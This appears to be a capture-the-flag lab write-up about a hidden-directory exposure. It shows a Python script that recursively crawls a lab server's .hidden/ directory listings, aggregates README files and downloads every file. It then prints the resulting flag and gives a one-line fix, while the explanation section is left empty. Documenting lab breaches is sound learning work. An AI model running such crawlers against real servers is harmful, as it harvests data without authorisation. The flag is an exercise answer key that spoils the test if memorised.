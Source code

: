 # Hidden files

### Breach description

The directory was found using nmap on the server IP.

Scrapping all the directories in the .hidden/ directory for the content of README files with a python script (20K files to visit).

```python
from bs4 import BeautifulSoup
import requests
import os
from urllib.parse import urljoin

def follow_directory_link(url, depth=1):
    if depth > 4:
        return

    # Fetch the HTML content from the URL
    response = requests.get(url)
    html_content = response.text

    # Create a BeautifulSoup object
    soup = BeautifulSoup(html_content, 'html.parser')

    # Find all <a> tags with href attribute
    links = soup.find_all('a')

    # Loop through each link
    for link in links:
        # Get the href attribute
        href = link.get('href')

        # Construct the absolute URL
        absolute_url = urljoin(url, href)

        # Check if the link is a directory or a file
        if href.endswith('/'):
            # Recursive call to follow the directory links
            follow_directory_link(absolute_url, depth + 1)
        else:
            # Download the file or perform any other action here
            if href.lower() == 'readme':
                # If the file is a README, save its content to agg_readme.txt
                readme_response = requests.get(absolute_url)
                save_readme_content(readme_response.content)

            # For demonstration purposes, I'm printing the file link
            file_response = requests.get(absolute_url)

            # Specify the directory to save the files
            save_directory = "your_save_directory"
            os.makedirs(save_directory, exist_ok=True)

            # Extract the filename from the URL
            filename = os.path.basename(absolute_url)

            # Save the file to the specified directory
            with open(os.path.join(save_directory, filename), 'wb') as file:
                file.write(file_response.content)

def save_readme_content(content):
    # Save the content to agg_readme.txt
    with open("agg_readme.txt", 'ab') as readme_file:
        readme_file.write(content)

# URL of the webpage
base_url = "http://192.168.64.6/.hidden/"

# Start the recursion with depth 1
follow_directory_link(base_url)
```

Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466

### Explanation of the breach

### Breach Fix

Do not store sensitive information in hidden files.
